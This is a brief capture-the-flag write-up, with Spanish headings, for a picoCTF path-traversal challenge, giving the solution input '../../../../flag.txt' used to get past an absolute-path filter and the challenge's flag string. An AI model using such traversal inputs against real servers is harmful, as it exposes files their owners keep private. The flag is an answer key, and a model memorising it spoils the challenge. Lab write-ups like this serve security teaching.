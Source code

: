## Descripcion
Can you get the flag? Here's the [website](http://saturn.picoctf.net:52278/). We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

## Pistas 
****** 
## Solucion
```
../../../../flag.txt
```
## bandera
picoCTF{7h3_p47h_70_5ucc355_6db46514}
## Notas adicionales 

## Referencias